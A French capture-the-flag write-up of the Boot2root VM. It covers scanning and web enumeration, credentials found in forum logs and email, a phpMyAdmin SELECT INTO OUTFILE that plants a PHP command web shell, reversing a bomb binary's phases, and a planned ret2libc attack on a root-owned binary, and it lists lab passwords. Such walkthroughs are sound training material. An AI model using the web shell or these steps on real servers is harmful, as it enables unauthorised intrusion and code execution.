 Boot-2-root 


Après avoir téléchargé l’ISO, on a commencé les réglages de la VM sur VirtualBox
Dans « Network », nous sommes passés en « Host-Only Adapter », puis nous avons lancé la VM

Étape 1

Boot2root nous demande un login et un mot de passe que nous ne connaissons pas. 

On a donc commencé par lancer la commande ifconfig
On remarque un « vboxnet0 » avec une adresse ip de 192.168.56.1

Nous utilisons donc nmap 192.168.56.0-255 afin scanner tout les réseaux entre 192.168.56.0 et 192.168.56.255

Nous nous rendons compte qu’il y a un serveur web avec http://192.168.56.101 avec le port 80

21/tcp open ftp
22/tcp open ssh
80/tcp open http
443/tcp open https

Afin de référencer les différentes url liées à cette adresse IP nous avons utilisé DIRB, un « scanner de contenu web ». En effet ce logiciel va se baser par rapport a un fichier contenant énormément de mots clefs et va tester « ip/unmotclé »

Donc en faisant la commande ./dirb https://192.168.56.101/ wordlists/common.txt nous avons obtenu 3 liens intéressants.

/forum 
/phpmyadmin
/webmail





Sur le forum, il y a 3 sections, donc une qui concerne des problèmes de connexion.

Il y a beaucoup des lignes qui semblent être des logs de connexion.
On s’aperçoit qu’il y a un « session_closed(lmerard) » Donc lmezard s’est connecté. 
On s’aperçoit également qu’il y a un « Failed password for invalid user !q\]Ej?*5K5cy*AJ »
Ce login ressemble a un mot de passe. On essaye donc sur phpmyadmin/mail et c’est finalement ce qui nous permet de nous connecter au forum. 

Une fois connecté au forum on voit l’adresse email de lmezard qui est laurie@borntosec.net
On remercie Lmezard qui a eu la bonne idée d’avoir un seul mot de passe, ce qui nous a donc permis de se connecter a son webmail avec cette adresse email et le mot de passe précédent.

Sur les mails, on voit que Lmezard a reçus un email avec les identifiants et mot de passe pour la base de données. 


root
		Fg-‘kXXbj87E:aJ$








On peut donc maintenant se connecter à PhpMyAdmin

On remarque que le forum a été crée par MyLittleForum. Sur leur GitHub d’installation, on remarque qu’a cette endroit /var/www/forum/templates_c on a les droits d’écritures, ce qui nous permettra de crée une nouvelle page et injecter notre code php.
Notre code php va donc crée un formulaire, qui prendra en argument des commandes de shell. On pourra donc naviguer sur le serveur et voir des potentiels failles.

« SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>"
INTO OUTFILE ‘/var/www/forum/templates_c/hacker.php’ »

En naviguant un petit peu on se rend compte qu’il y a un fichier password 
En rentrant cette commande cd /home/LOOKATME; cat password on obtient donc

lmezard:G!@M6f4Eatau{sF »

Ces identifiants nous permettent de nous connecter en FTP avec le port 21 comme obtenu précédemment. 

Étape 2

Grace a notre connexion ftp, on remarque qu’on a accès a 2 fichiers. Un README et un fichier fun. Le README nous annonce qu’on va devoir trouver le mot de passe de Laurie pour se connecter en SSH



	

Le fichier fun n’était pas très lisible, mais il y avait quelques brides de code compréhensible. 
Nous avons fait un grep « getme » pour trouver tout les fichiers qui contenait une lettre du mot de passe. Ensuite nous faisions un cat du fichier correspondant et nous pouvions trouver une lettre après l’autre. Le résultat était Iheartpwnage
Après avoir hash avec sha256 nous obtenions le mot de passe de Laurie qui était 

330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4






















Etape 3

La connexion en ssh se fait donc sur ssh -p 22 laurie@192.168.56.101
Sur la session de Laurie on trouve un fichier BOMB qui nous dit que ca va se passer en 6 étapes. 
Il y a également un README qui nous explique que le fichier bomb va nous permettre de trouver le mot de passe de Thor pour se connecter en SSH 


Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).

Nous avons téléchargé et utilisé Cutter ce qui nous a permis de décompilé le programme. 
On se rend compte dans le main qu’il a « phase_1 phase_2 phase_3 phase_4 phase_5 phase_6 »

Phase_1

En se baladant dans le fichier C liée a phase_1, nous avons trouvé la phrase 
Public speaking is very easy. 
Cette phrase est donc la solution pour la phase 1


Phase_2 

On se rend compte dans le code C décompilé qu’il y a une sorte de suite dans le calcul, 
L’indice dans le README nous indique que la deuxième input sera un « 2 »
On sait en voyant le code que le résultat est une entrée de 6 input.

Initialement, on pensait que c’était la suite de fibonacci, mais c’était enfaite une suite factorielle. 
Le résultat est donc 1 2 6 24 120 720

Phase_3 

Encore une fois avec le code décompilé de la phase3 on se rend compte que le code est très logique et qu’il y a donc 3 solutions possible. 1 b 214 ou 2 b 755 ou 7 b 524

Phase_4

Le code est encore une fois assez logique et nous fait penser à la suite de Fibonacci. 
Le résultat est 55 et donc nous comparons 55 par rapport à la suite de fibonacci est donc 10. Néanmoins, on voit dans la condition qu’on ne doit pas commencer par le 1, donc l’index de la suite est enfaite 9. Le résultat de cette phase_4 est donc 9

Phase_5

Dans le code décompilé, on se rend compte qu’il y a cette chaine de caractère « isrveawhobpnutfg » On se rend également compté qu’il y a un masque binaire affecté à ce code de 15 (0xf) 

On voit également le mot « giants » et on se rend compte qu’il a été fait avec la chaine de caractère trouvé précédemment additionné au masque binaire. 

On fait donc un reverse de cela avec un code python (merci bpisano) 
/script/phase_5.py
On obtient donc le code opekma

Phase_6

Ici, c’est légèrement plus complexe. On a aucun réel indice nous permettant de nous donner le code. Par contre on remarque plusieurs conditions qui peuvent nous être utiles. 

Le code commence par 4 (voir README)
Il doit avoir 6 nombres 
Les nombres sont compris entre 1 et 6

On va donc faire un brutforce en python nous permettant de trouver le mot de passe. (Merci bpisano encore)

/script/phase_6.py
On obtient donc le code 426315

En additionnant tout les codes obtenus, le résultat est donc 
Publicspeakingisveryeasy.126241207201b2149opekmq426135

Etape 4

On peut donc maintenant se connecter en ssh avec Thor comme user
Il y a sur la session un fichier turtle avec des indications comme « avance 10 »
On execute donc le fichier turtle sur le site http://lwh.free.fr/pages/prog/logo/logo.htm

Au préalable, on a modifié légèrement les instructions en enlevant les instructions superflus. 
On obtient un dessin avec le mot SLASH










A la fin du fichier turtle, nous avions une indications nous faisant comprendre qu’il fallait hasher le mot de passe. Nous avons testé en sha1 et en md5. Le bon hash était MD5 ce qui nous a donné 
646da671ca01bb5d84dbb5fb2238dc8e


Etape 5

On peut donc maintenant se connecter en ssh avec le user zaz 
Il y a un exécutable exploit_me qui nous donnent quelques informations puisque cet exécutable a les privilèges root, donc lorsqu’on lance cette exécutable, c’est comme si nous étions root.

En décompilant le code, nous voyons un code très simple















On s’aperçoit que le programme prend l’argument envoyé, fait un strcpy et l’affiche. 
Néanmoins il y a une réel faille dans ce programme puisque le programme segfault lorsqu’on lui envoie plus de 140 caractères.
Nous allons faire une attaque « Ret2libc »

Merci a ce site très bien documenté
https://beta.hackndo.com/retour-a-la-libc/ 

 

